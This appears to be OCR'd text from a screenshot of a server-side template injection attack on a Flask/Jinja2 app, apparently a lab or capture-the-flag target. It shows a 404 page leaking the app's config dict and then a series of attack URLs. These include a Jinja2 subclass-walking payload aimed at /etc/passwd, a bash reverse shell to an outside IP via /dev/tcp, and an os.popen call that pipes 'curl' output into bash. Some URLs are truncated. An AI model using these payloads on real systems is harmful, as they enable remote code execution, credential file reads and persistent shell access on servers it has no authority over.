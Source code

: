 The page 'dict_items([('ENV', 'production'), ('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('PRESERVE_CONTEXT_ON_EXCEPTION', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', datetime.timedelta(seconds=43200)), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('JSON_AS_ASCII', True), ('JSON_SORT_KEYS', True), ('JSONIFY_PRETTYPRINT_REGULAR', False), ('JSONIFY_MIMETYPE', 'application/json'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093), ('CLD_CONTINUED', 6), ('CLD_DUMPED', 3), ('CLD_EXITED', 1), ('CLD_KILLED', 2), ('CLD_STOPPED', 5), ('CLD_TRAPPED', 4), ('EX_CANTCREAT', 73), ('EX_CONFIG', 78), ('EX_DATAERR', 65), ('EX_IOERR', 74), ('EX_NOHOST', 68), ('EX_NOINPUT', 66), ('EX_NOPERM', 77), ('EX_NOUSER', 67), ('EX_OK', 0), ('EX_OSERR', 71), ('EX_OSFILE', 72), ('EX_PROTOCOL', 76), ('EX_SOFTWARE', 70), ('EX_TEMPFAIL', 75), ('EX_UNAVAILABLE', 69), ('EX_USAGE', 64), ('F_LOCK', 1), ('F_OK', 0), ('F_TEST', 3), ('F_TLOCK', 2), ('F_ULOCK', 0), ('GRND_NONBLOCK', 1), ('GRND_RANDOM', 2), ('MFD_ALLOW_SEALING', 2), ('MFD_CLOEXEC', 1), ('MFD_HUGETLB', 4), ('MFD_HUGE_16GB', -2013265920), ('MFD_HUGE_16MB', 1610612736), ('MFD_HUGE_1GB', 2013265920), ('MFD_HUGE_1MB', 1342177280), ('MFD_HUGE_256MB', 1879048192), ('MFD_HUGE_2GB', 2080374784), ('MFD_HUGE_2MB', 1409286144), ('MFD_HUGE_32MB', 1677721600), ('MFD_HUGE_512KB', 1275068416), ('MFD_HUGE_512MB', 1946157056), ('MFD_HUGE_64KB', 1073741824), ('MFD_HUGE_8MB', 1543503872), ('MFD_HUGE_MASK', 63), ('MFD_HUGE_SHIFT', 26), ('NGROUPS_MAX', 65536), ('O_ACCMODE', 3), ('O_APPEND', 1024), ('O_ASYNC', 8192), ('O_CLOEXEC', 524288), ('O_CREAT', 64), ('O_DIRECT', 16384), ('O_DIRECTORY', 65536), ('O_DSYNC', 4096), ('O_EXCL', 128), ('O_LARGEFILE', 0), ('O_NDELAY', 2048), ('O_NOATIME', 262144), ('O_NOCTTY', 256), ('O_NOFOLLOW', 131072), ('O_NONBLOCK', 2048), ('O_PATH', 2097152), ('O_RDONLY', 0), ('O_RDWR', 2), ('O_RSYNC', 1052672), ('O_SYNC', 1052672), ('O_TMPFILE', 4259840), ('O_TRUNC', 512), ('O_WRONLY', 1), ('POSIX_FADV_DONTNEED', 4), ('POSIX_FADV_NOREUSE', 5), ('POSIX_FADV_NORMAL', 0), ('POSIX_FADV_RANDOM', 1), ('POSIX_FADV_SEQUENTIAL', 2), ('POSIX_FADV_WILLNEED', 3), ('POSIX_SPAWN_CLOSE', 1), ('POSIX_SPAWN_DUP2', 2), ('POSIX_SPAWN_OPEN', 0), ('PRIO_PGRP', 1), ('PRIO_PROCESS', 0), ('PRIO_USER', 2), ('P_ALL', 0), ('P_NOWAIT', 1), ('P_NOWAITO', 1), ('P_PGID', 2), ('P_PID', 1), ('P_WAIT', 0), ('RTLD_DEEPBIND', 8), ('RTLD_GLOBAL', 256), ('RTLD_LAZY', 1), ('RTLD_LOCAL', 0), ('RTLD_NODELETE', 4096), ('RTLD_NOLOAD', 4), ('RTLD_NOW', 2), ('RWF_DSYNC', 2), ('RWF_HIPRI', 1), ('RWF_NOWAIT', 8), ('RWF_SYNC', 4), ('R_OK', 4), ('SCHED_BATCH', 3), ('SCHED_FIFO', 1), ('SCHED_IDLE', 5), ('SCHED_OTHER', 0), ('SCHED_RESET_ON_FORK', 1073741824), ('SCHED_RR', 2), ('SEEK_CUR', 1), ('SEEK_DATA', 3), ('SEEK_END', 2), ('SEEK_HOLE', 4), ('SEEK_SET', 0), ('ST_APPEND', 256), ('ST_MANDLOCK', 64), ('ST_NOATIME', 1024), ('ST_NODEV', 4), ('ST_NODIRATIME', 2048), ('ST_NOEXEC', 8), ('ST_NOSUID', 2), ('ST_RDONLY', 1), ('ST_RELATIME', 4096), ('ST_SYNCHRONOUS', 16), ('ST_WRITE', 128), ('TMP_MAX', 238328), ('WCONTINUED', 8), ('WCOREDUMP', <built-in function WCOREDUMP>), ('WEXITED', 4), ('WEXITSTATUS', <built-in function WEXITSTATUS>), ('WIFCONTINUED', <built-in function WIFCONTINUED>), ('WIFEXITED', <built-in function WIFEXITED>), ('WIFSIGNALED', <built-in function WIFSIGNALED>), ('WIFSTOPPED', <built-in function WIFSTOPPED>), ('WNOHANG', 1), ('WNOWAIT', 16777216), ('WSTOPPED', 2), ('WSTOPSIG', <built-in function WSTOPSIG>), ('WTERMSIG', <built-in function WTERMSIG>), ('WUNTRACED', 2), ('W_OK', 2), ('XATTR_CREATE', 1), ('XATTR_REPLACE', 2), ('XATTR_SIZE_MAX', 65536), ('X_OK', 1)])' could not be found

http://157.245.42.82.30636/?username={{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/p>

http://157.245.42.82:30636/?username={{ config['RUNCMD']('bash -i >& /dev/tcp/157.245.42.82/12345>


http://157.245.42.82:30626/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('curl%2010.10.14.28:12345%20|%20bash').read()%7D%7D
Proudly powered by Flask/Jinja2http://157.245.42.82:30626/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('curl%2010.10.14.28:12345%20|%20bash').read()%7D%7D
